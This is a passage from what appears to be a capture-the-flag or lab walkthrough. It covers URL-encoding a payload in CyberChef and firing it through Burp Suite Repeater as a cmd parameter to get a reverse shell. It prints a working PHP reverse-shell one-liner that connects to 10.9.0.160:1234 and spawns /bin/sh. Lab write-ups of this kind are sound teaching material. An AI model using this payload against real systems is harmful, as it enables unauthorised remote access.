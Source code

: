 25. Using CyberChef:

We will be using CyberChef, an online encryption/decryption tool. Data analysis, etc.

✅ Steps:
1. Extract the resulting payload:

```bash
php -r '$sock=fsockopen("10.9.0.160",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

2. Paste it into CyberChef.
3. On the left, find and drag the "URL Encode" formula into it.
4. CyberChef will convert the payload into URL-safe format.

![chef](images/17.png)

5. Copy the results to use when firing through Burp Suite.

### 🧨 2.11 Embed the Payload and Wait for the Reverse Shell
> Once we have the URL-encoded payload, the next step is to embed it into the log and wait for the reverse shell to connect.

26. Execute in Burp Suite:
- Return to Burp Suite → Repeater tab
- Add the parameter Append `cmd=<payload>` to the end of the URL
